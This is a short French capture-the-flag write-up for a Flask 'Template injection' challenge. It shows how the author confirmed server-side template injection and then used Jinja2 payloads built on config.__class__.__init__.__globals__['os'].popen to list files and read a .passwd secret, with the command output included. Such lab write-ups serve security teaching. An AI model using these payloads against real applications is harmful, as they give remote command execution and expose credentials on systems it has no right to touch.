

# Template injection

## Challenge :

Tenter des trucs

## Stratégie :

On sait qu'on est en python avec Flask 2.0 donc on peut tenter ceci :

 - `1+1` => ``, dommage.
 - `{{ 1+1 }}` => `2`, Ahhh on peut exécuter du code.
 
Un bon liens [ici](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection).
On peut retrouver facilement des requêtes à tester sur Flask dont celle-ci :

 - `{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}` => `Dockerfile TemplateInjection.rar __pycache__ app.py docker-compose.yml requirements.txt static`
 
On a pas de flag donc essayons plus large :

 - `{{config.__class__.__init__.__globals__['os'].popen('ls -al').read()}}` => `total 44 drwxr-xr-x 1 root root 4096 Oct 6 18:43 . drwxr-xr-x 1 root root 4096 Oct 6 18:43 .. -r--r----- 1 root root 88 Oct 6 16:06 .env -r--r----- 1 root root 16 Oct 5 22:31 .passwd -r--r----- 1 root root 261 Oct 6 16:08 Dockerfile -r--r----- 1 root root 1532 Oct 6 16:01 TemplateInjection.rar drwxr-xr-x 2 root root 4096 Oct 6 18:43 __pycache__ -r--r----- 1 root root 2735 Oct 5 22:30 app.py -r--r----- 1 root root 302 Oct 6 16:06 docker-compose.yml -r--r----- 1 root root 235 May 19 11:48 requirements.txt drwxr-xr-x 4 root root 4096 May 19 12:09 static`
 
Il nous suffit alors d'essayer :

 - `{{config.__class__.__init__.__globals__['os'].popen('cat .passwd').read()}}`
 
Et voilà !